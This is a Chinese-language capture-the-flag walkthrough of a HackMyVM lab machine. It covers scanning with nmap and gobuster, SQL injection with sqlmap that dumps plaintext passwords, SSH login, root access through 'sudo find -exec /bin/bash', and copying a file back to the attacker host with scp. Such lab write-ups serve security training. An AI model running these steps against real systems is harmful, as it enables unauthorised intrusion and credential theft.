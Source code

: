 # 一、信息收集

首先，在当前网段内进行主机发现，确定目标靶机的IP地址。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l
...
Interface: eth0, type: EN10MB, MAC: 00:0c:29:57:e5:45, IPv4: 192.168.205.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
...
192.168.205.132 08:00:27:99:80:8f       PCS Systemtechnik GmbH
...
```

目标主机IP为 `192.168.205.132`。

接下来，使用Nmap对目标主机进行全端口扫描，以探测其开放的服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p0-65535 192.168.205.132
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-24 05:04 EDT
Nmap scan report for novice.com (192.168.205.132)
Host is up (0.00017s latency).
Not shown: 65534 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 08:00:27:99:80:8F (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.12 seconds
```

扫描结果显示，目标开放了 `22` (SSH) 和 `80` (HTTP) 两个端口。我们从Web服务入手。

# 二、Web渗透

访问目标 `http://192.168.205.132`，发现是一个静态图片展示页面，没有可交互的功能点。因此，决定进行目录爆破来发现更多信息。

使用 `gobuster` 进行目录扫描：

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ gobuster dir -u http://192.168.205.132 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html -t 64
===============================================================
...
[+] Url:                     http://192.168.205.132
...
===============================================================
/index.html           (Status: 200) [Size: 825]
/login.php            (Status: 200) [Size: 352]
/index2.php           (Status: 200) [Size: 75134]
/server-status        (Status: 403) [Size: 280]
...
===============================================================
```

扫描发现了 `index2.php` 和 `login.php`。访问 `index2.php`，发现是一个功能复杂的仿黑客交互式页面。在页面的 "CRYPTO" 模块中，找到了一段十六进制编码的字符串：

```
48 6f 6c 61 20 41 6c 69 74 61 2c 20 ... 6c 61 20 72 65 64 2e
```

使用 CyberChef 将其转换为文本，得到以下信息：

> 嗨，Alita，希望你正在读这条加密信息。要破解系统，你需要使用我解释过的技术。我已经把访问代码和验证码“pandora”给了你。线上见。

虽然得到了 “pandora” 这个关键信息，但当时并未完全理解其用途。

继续探索 `index2.php` 的其他模块，在 "NEXUS" 模块中发现了一条重要的提示信息，指向了一个新的登录路径：

![image-20250824172310725](http://7r1UMPHK.github.io/image/20250824174142762.webp)

`NEXUS MSG> _ AUTHORIZATION PANEL :: http://[personal ip]/auth-login.php`

访问 `http://192.168.205.132/auth-login.php`，发现一个登录框。尝试输入 `admin` 并在密码框中输入一个单引号 `'`，页面返回了SQL错误，表明此处存在SQL注入漏洞。

使用 `sqlmap` 对该登录表单进行自动化注入攻击：

```bash
sqlmap -u "http://192.168.205.132/auth-login.php" --batch --forms --dump
```

`sqlmap` 成功识别并利用了注入点，从数据库中 dump 出了 `users` 表的内容：

```
...
Database: sion
Table: users
[2 entries]
+----+--------------------+----------+
| id | password           | username |
+----+--------------------+----------+
| 1  | F4ckTh3F4k3H4ck3r5 | shelly   |
| 2  | cambiame08         | admin    |
+----+--------------------+----------+
...
```

我们获得了一组有效的凭证：`shelly` / `F4ckTh3F4k3H4ck3r5`。

# 三、权限提升

利用上一步获取的凭证，通过SSH登录目标主机。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ ssh shelly@192.168.205.132
shelly@192.168.205.132's password: F4ckTh3F4k3H4ck3r5

... Welcome Banner ...

shelly@NexusLabCTF:~$ id
uid=1000(shelly) gid=1000(shelly) groups=1000(shelly)...
```

登录成功后，立即检查当前用户的 `sudo` 权限。

```bash
shelly@NexusLabCTF:~$ sudo -l
...
User shelly may run the following commands on NexusLabCTF:
    (ALL) NOPASSWD: /usr/bin/find
```

结果显示，`shelly` 用户可以无需密码以 `root` 权限执行 `/usr/bin/find` 命令。`find` 命令可以通过 `-exec` 参数执行任意命令，这是一个经典的提权向量。

利用 `find` 命令提权至 `root`：

```bash
shelly@NexusLabCTF:~$ sudo find . -exec /bin/bash \; -quit
root@NexusLabCTF:/home/shelly# id
uid=0(root) gid=0(root) groups=0(root)
```

成功获取 `root` 权限。首先，读取用户 flag：

```bash
root@NexusLabCTF:/home/shelly# cat /home/shelly/SA/user-flag.txt 
...
HackMyVM
Flag User ::  82kd8FJ5SJ00HMVUS3R36gd
```

# 四、最终Flag获取

在 `root` 用户的家目录下，发现了一个名为 `Sion-Code` 的目录，其中包含一个图片文件 `use-fim-to-root.png`。文件名暗示了最终的 flag 可能与这个文件有关。

为了方便分析，使用 `scp` 将该图片文件传回 Kali 攻击机。

```bash
# 在靶机上执行
root@NexusLabCTF:~/Sion-Code# scp use-fim-to-root.png kali@192.168.205.128:/mnt/hgfs/gx/x
...
use-fim-to-root.png                                     100%   71KB  19.7MB/s   00:00
```

![use-fim-to-root](http://7r1UMPHK.github.io/image/20250824174140496.webp)

回到 Kali，使用 `strings` 命令检查图片文件中是否隐藏了可打印的字符串。这种方法常用于在文件中寻找被隐藏的信息（一种简单的隐写术）。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ strings use-fim-to-root.png | tail -n 1
;HMV-FLAG[[ p3vhKP9d97a7HMV79ad9ks2s9 ]]
```

在文件的末尾成功找到了最终的 root flag。渗透测试完成。